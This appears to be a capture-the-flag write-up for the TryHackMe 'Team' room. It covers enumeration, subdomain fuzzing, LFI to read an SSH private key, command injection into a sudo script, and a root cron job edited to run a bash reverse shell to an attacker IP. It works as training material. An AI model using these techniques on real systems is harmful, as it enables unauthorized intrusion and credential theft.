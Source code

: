 # [Team][1]
Beginner friendly boot2root machine

#### Scan the Machine
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`

![Nmap Scan](images/open_ports.jpg)

Looks like we have three ports open: `21, 22, 80`

> Let's check the webpage as port 80 is open. Well its just the Apache Server Default Page. Nothing much really.

I tried different things, didn't find much:

- :no_good: Nothing on GoBuster  
- :no_good: Nothing using enum4linux  

Then I checked the source code and found something interesting in the TITLE.

![Source Code](images/source_code.jpg)
> It says to add **team.thm** to the HOSTS file.

![Add to HOSTS](images/add_to_host.jpg)
> I checked the link in the browser with `team.thm`. It gives me a google search results. But on the TOP is says go to the website, so I did. The result was fascinating.

![Different Webpage](images/different_webpage.jpg)
> I don't know about you guys! But I was little surprised with the result. Therefore, I did some search and found this is called ***Virtual Host Routing***.

So with a new domain I tried to run the GoBuster Again: `gobuster dir -u http://team/thm -w /var/share/wordlists/dirb/common.txt -x txt,php,html`

![GoBuster Results](images/gobuster.jpg)
> *robots.txt* file looks interesting so I checked the file in the browser `team.thm/robots.txt`. Huh! Just a four letter word 'dale'. Well it can be username.

As through Nmap scan we know that ssh port is open. We can now bruteforce `hydra -l dale -P rockyou.txt ssh://<IP>`
> I waited for like hours but didn't found anything  :sob:

Let's try WFUZZ to check for subdomains. `wfuzz -c -u http://team.thm -H "Host:FUZZ.team.thm" -w <wordlist>`

[Wordlist][5] I used is from SecLists. Also, we you are not sure of this commands like GoBuster and WFUZZ check [Advent Of Cyber 2][4] on TryHackMe (Day 4).

>When I tried to run the command there were two many results. So I stopped and add `--hw 977` as most of the files has this word counts.

![WFUZZ](images/wfuzz.jpg)

> Seems like we found subdomain `dev`. So this is what HINT was about. Let's add the subdomain to HOSTS file and check the site.

![Adding Subdomain](images/add_subdomain_host.jpg)

I added `dev.team.thm` and `www.dev.team.thm`.

![Checking Subdomain](images/dev_web_result.jpg)

Clicking on the links takes us to another page.

![Click Link](images/further_investigate.jpg)

Seems like a script is running and a `page` variable. Wonder if the HINT was about this too  :innocent:.

![User Flag](images/user_flag.jpg)
> BAAAAM! We got the user flag. We know that `dale` is a user and the flag can be in dale's root directory.

We can try for LFI here, FIRE UP your BurpSuite.
1. Capture the Request
2. Send it to intruer

![BurpSuite](images/burp_intruder.jpg)

3. Select payload. For this I used [Wordlist][3] from PayloadsAllTheThings.

As the port `21, 22` are open. I first looked for the file:
- /etc/ssh/ssh_config
- /etc/ssh/sshd_config
- /etc/vsftp.config

After looking through this files. I found **SSH Key** of DALE in `sshd_config` file. We have a SSH Key. Copy the content from `----BEGIN..` and paste in the file. I named the file `id_rsa` (this is the general name used). Use `chmod 600 id_rsa` (this is the general permissions of a SSH Key). Connect using `ssh -i id_rsa dale@<IP>`

![Got SSH](images/got_ssh.jpg)

BOOM! We got the access. Now first thing I do is check for sudo list commands. That can be done using `sudo -l`

![Sudo](images/sudo_l.jpg)

There is a file which can be run using `gyles` user. Let's check the content of the file.

![Content](images/cat_file.jpg)

Seems like a file which takes input from the user. Specially ***$error*** variable seems to interact with SHELL. What if we give input `/bin/bash`.


![Run Rights](images/run_rights.jpg)

Run the file with `gyles` rights, so that we can get access to that user.

![Bash input](images/bin_bash.jpg)

We can work with this as a shell. However, I learnt something like ***Shell Stabilization*** in [Advent of Cyber 2][4] (Day 24)

Run command -> `python -c 'import pty;pty.spawn("/bin/bash")'`

![Shell Stable](images/python_run.jpg)
> BAAM! We got stable shell as `gyles`. We didn't have the password of this account. So `sudo -l` is not a good idea.

I was kinda in trouble here however I had [linPEAS][6] to rescue.

Fireup another shell and transfer `linpeas.sh` to the machine using `scp -i id_rsa <location_in_your_pc> dale@10.10.7819:.`.

![File Transfer](images/linpeas_trasnfer.jpg)
> This will transfer the file to the home directory of `dale`.

Let's run the file and see what kind of results we have.

![Run LinPEAS](images/execute_linpeas.jpg)

There is a lot of information. But we are interested in the lines with RED color.

- User is in **admin** group.
- sudo version is **1.8.21p2**.
- /usr/local/bin
  - It is writeable directory and has a file
  - In **cron jobs** I see the file `main_backup.sh` which is in the same dir.
- /var/backups/www/team.thm/scripts/scripts.old

![File Found](images/file_found.jpg)
> Seems like a bash command and this file can be edited, as `gyles` is
 in `admin` group. Also, we know that this file runs as `root` (cronjobs` found via *linPEAS*).

 Therefore, we can add the famous bash one liner to get a shell as `root`.
 - Open the file using `nano main_backup.sh`
 - Add the Bash CMD -> `bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1`.
 - Press `Ctrl+X`, then `Y` and then ENTER.

 ![Bash Command](images/verify.jpg)

Start a listner using `nc -lvnp 4444`

![Listener](images/listener.jpg)

Wait for a while and you will have a shell as a `root`

![Root Access](images/root_access.jpg)

You know what to do next :stuck_out_tongue_winking_eye:

![Root Flag](images/root_flag.jpg)

[1]: https://tryhackme.com/room/teamcw
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/Linux-files.txt
[4]: https://tryhackme.com/room/adventofcyber2
[5]: https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-20000.txt
[6]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
